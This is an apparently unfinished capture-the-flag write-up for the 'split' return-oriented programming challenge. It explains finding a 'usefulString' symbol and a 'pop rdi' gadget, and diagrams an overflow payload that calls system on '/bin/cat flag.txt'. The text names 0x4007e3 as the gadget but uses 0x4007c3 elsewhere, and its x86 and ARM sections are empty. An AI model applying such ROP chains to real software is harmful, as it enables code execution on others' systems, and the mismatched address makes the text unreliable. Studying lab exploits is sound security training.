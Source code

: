 # split

Now the fun starts, i'll focus on what are the pieces i use to build ROP chains and
what is the purpose of each of those. For this challenge, like the last one, listing
symbols tells us a lot.
```bash
$ nm split
...
0000000000601060 t usefulString  # x86_64
...
0804a030 t usefulString          # x86
...
0002103c t usefulString          # ARMv5
...
```
By checking with a debugger, we can check the content of it, which is `/bin/cat flag.txt`   

On each binary, the usefulFunction is calling system, using with `/bin/ls` as argument.
The goal is to replace this argument with our usefulString.

## x86_64:
```asm
000000000040074b <ret2win + 0x09>:
  40074b:	e8 10 fe ff ff   call   400560 <system@plt>

00000000004007c2 <__libc_csu_init + 0x62>:
  4007c2:	41 5f            pop    r15
  4007c4:	c3               ret    
```
The 0x5f opcode is the one for `pop rdi`, the 0x41 byte is used to extend it
to the second set of registers thus displaying a `pop r15`. We can use 0x4007e3 as a
`pop rdi` gadget.   
With all of this, we can craft our exploit.   
```
┌─────────────────────────┐  ┌─────────────────────────┐
│ buffer                  │  │ 20 20 20 20 20 20 20 20 │
│                         │  │ 20 20 20 20 20 20 20 20 │
│                         │  │ 20 20 20 20 20 20 20 20 │
├─────────────────────────┤  │ 20 20 20 20 20 20 20 20 │
│ old_rbp                 │  │ 20 20 20 20 20 20 20 20 │
├─────────────────────────┤  ├─────────────────────────┤
│ ret                     │  │ 0x4007c3                │ <- pop rdi; ret
├─────────────────────────┤  ├─────────────────────────┤
│ ...                     │  │ 0x601060                │ <- usefulString address
│                         │  ├─────────────────────────┤
│                         │  │ 0x40074b                │ <- sytem call
└─────────────────────────┘  └─────────────────────────┘
```
## x86:

## ARM:
